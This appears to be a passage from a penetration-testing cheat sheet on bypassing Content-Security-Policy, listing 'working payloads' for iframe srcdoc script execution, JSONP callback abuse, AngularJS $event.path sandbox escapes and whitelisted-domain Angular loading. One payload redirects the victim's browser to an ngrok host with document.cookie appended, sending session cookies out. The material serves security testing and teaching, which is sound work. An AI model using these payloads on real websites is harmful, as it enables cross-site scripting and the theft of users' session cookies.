 ### Iframes JS execution

```yaml
Content-Security-Policy: default-src 'self'; connect-src 'self'; script-src 'self';
```

Working payloads:

```markup
#This one requires the data: scheme to be allowed
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
#This one injects JS in a jsonp endppoint
<iframe srcdoc='<script src="/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>

* sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```

### AngularJS events

Depending on the specific policy, the CSP will block JavaScript events. However, AngularJS defines its own events that can be used instead. When inside an event, AngularJS defines a special `$event` object, which simply references the browser event object. You can use this object to perform a CSP bypass. On Chrome, there is a special property on the `$event/event` object called `path`. This property contains an array of objects that causes the event to be executed. The last property is always the `window` object, which we can use to perform a sandbox escape. By passing this array to the `orderBy` filter, we can enumerate the array and use the last element \(the `window` object\) to execute a global function, such as `alert()`. The following code demonstrates this:

```markup
<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">
?search=<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x
```

### AngularJS and whitelisted domain

```text
Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none' ;report-uri /Report-parsing-url;
```

If the application is using angular JS and scripts are loaded from a whitelisted domain. It is possible to bypass this CSP policy by calling callback functions and vulnerable class. For more details visit this awesome \[git\]\([https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh\*t,-it's-CSP!%22](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22)\) repo.

Working payloads:

```text
"><script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>
ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>
```
